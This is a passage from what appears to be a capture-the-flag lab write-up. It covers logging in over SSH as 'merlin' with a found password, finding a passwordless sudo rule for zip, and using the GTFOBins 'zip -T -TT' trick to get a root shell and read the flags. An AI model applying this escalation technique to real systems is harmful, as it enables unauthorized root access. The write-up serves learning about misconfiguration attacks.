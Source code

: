 ### 7. SSH as merlin
- Tested credentials:
  ```bash
  ssh merlin@10.10.181.178
  ```
- Password: `asuyusdoiuqoilkda312j31k2j123j1g23g12k3g12kj3gk12jg3k12j3kj123j`
- Success: Logged in as `merlin`.
- Found user flag:
  ```bash
  cd /home/merlin
  cat user.txt
  ```
- Content: `THM{redacted_user_flag}` (example) [].
- Checked `sudo` privileges:
  ```bash
  sudo -l
  ```
- Output:
  ```
  User merlin may run the following commands on ubuntu:
      (root : root) NOPASSWD: /usr/bin/zip
  ```
- **Key Insight**: `merlin` can run `zip` as `root` without a password, exploitable for privilege escalation [,].

### 8. Escalate to Root
- Visited [GTFOBins](https://gtfobins.github.io/gtfobins/zip/) for `zip` exploitation [].
- Found:
  ```bash
  TF=$(mktemp -u)
  sudo zip $TF /etc/hosts -T -TT 'sh #'
  ```
- **Explanation**:
  - `mktemp -u`: Creates a temporary filename.
  - `zip ... -T -TT 'sh #'`: The `-T` (test) and `-TT` (unzip command) options allow specifying a command (`sh #`), which runs as `root` due to `sudo`.
  - The `#` ensures the shell persists [].
- Ran the command:
  ```bash
  TF=$(mktemp -u)
  sudo zip $TF /etc/hosts -T -TT 'sh #'
  ```
- Output:
  ```
  adding: etc/hosts (deflated 31%)
  # id
  uid=0(root) gid=0(root) groups=0(root)
  ```
- **Result**: Got a root shell.

### 9. Find Root Flag
- Navigated to:
  ```bash
  cd /root
  cat root.txt
  ```
- Content: `THM{Z1P_1S_FAKE}` [].
